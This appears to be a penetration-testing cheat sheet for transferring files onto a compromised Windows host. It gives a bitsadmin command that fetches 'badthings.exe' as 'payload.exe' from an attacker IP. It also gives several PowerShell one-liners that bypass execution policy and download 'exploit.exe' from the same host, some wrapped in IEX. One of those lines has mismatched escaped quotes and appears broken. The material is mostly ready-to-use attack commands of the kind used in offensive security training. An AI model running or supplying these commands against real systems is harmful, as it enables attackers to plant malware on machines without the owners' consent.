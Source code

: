 ### Trasfering Files using Bitsadmin

Background Intelligent Transfer Service (BITS) is a component of Microsoft Windows XP and later iterations of the operating systems, which facilitates asynchronous, prioritized, and throttled transfer of files between machines using idle network bandwidth. BITSAdmin is a command-line tool that you can use to create download or upload jobs and monitor their progress. For full, comprehensive documentation of the tool and all of its commands, see bitsadmin and bitsadmin examples in the Windows IT Pro Center.

```
C:\>bitsadmin /transfer badthings http://10.10.10.10:80/badthings.exe c:\users\public\payload.exe
```

### Uploading Files with PowerShell  

Test to see if we can run Powershell:

```cmd
CMD C:\> @"%SystemRoot%\System32\WindowsPowerShell\v1.0\powershell.exe" -NoProfile -InputFormat None -ExecutionPolicy Bypass -Command "get-host"
```

Test to see if we can run Powershell Version 2:

```cmd
CMD C:\> @"%SystemRoot%\System32\WindowsPowerShell\v1.0\powershell.exe" -Version 2 -NoProfile -InputFormat None -ExecutionPolicy Bypass -Command "$PSVersionTable"
```

Try to download a file from a remote server to the windows temp folder from the Windows command line:

```cmd
CMD C:\> @"%SystemRoot%\System32\WindowsPowerShell\v1.0\powershell.exe" -NoProfile -InputFormat None -ExecutionPolicy Bypass -Command "(New-Object System.Net.WebClient).DownloadFile(\"http://10.10.10.10/exploit.exe\", \"C:\\Users\\Public\\Downloads\\exploit.exe\")"
```

Or from a PowerShell... shell:

```powershell
PS C:\> IEX(New-Object System.Net.WebClient).DownloadFile(\"http://10.10.10.10/exploit.exe\", \"C:\\Users\\Public\\Downloads\\exploit.exe\")"
```

OR This one seems to work better while at the console:

```powershell
PS C:\> IEX(New-Object System.Net.WebClient).DownloadFile("http://10.10.10.10/exploit.exe", "C:\Users\Public\Downloads\exploit.exe")
```

### Uploading Files with Python

Sometimes a Windows machine will have development tools like Python installed.
Check for python

```
python -h
```
